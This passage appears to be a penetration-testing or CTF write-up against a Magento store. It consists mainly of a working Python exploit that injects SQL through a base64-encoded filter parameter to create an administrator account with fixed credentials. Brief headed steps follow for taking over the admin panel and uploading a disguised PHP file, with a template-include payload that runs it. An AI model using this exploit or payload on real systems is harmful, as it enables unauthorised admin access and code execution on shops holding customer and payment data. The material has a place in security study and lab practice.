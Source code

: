 ```
q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="b3t4m3", password="b3t4m3")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}

r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter.encode()),
                        "forwarded": 1})
if r.ok:
    print("WORKED")
    print("Check {0}/admin with creds b3t4m3:b3t4m3".format(target))
else:
    print("DID NOT WORK")
```

# Owning admin panel

![2e6f1656aef3b557b993684ca3d4c7ee.png](:/ce2124c7e95f4859bb2b93c6a02272bd)

# change template settings

![ceab10cc8de7c71538770ff584862da9.png](:/d48e8019fc38479cb9b957820b287104)

# Uploading a malicious php file

## evil idiot.php.png file

![9e3d6481bf930bbae6394cac6c899af1.png](:/3cb0a361308844bc8ef9fa0961e2320f)

### payload:
```
{{block type="core/template" template="../../../../../../media/catalog/category/idiot.php.png}}
```
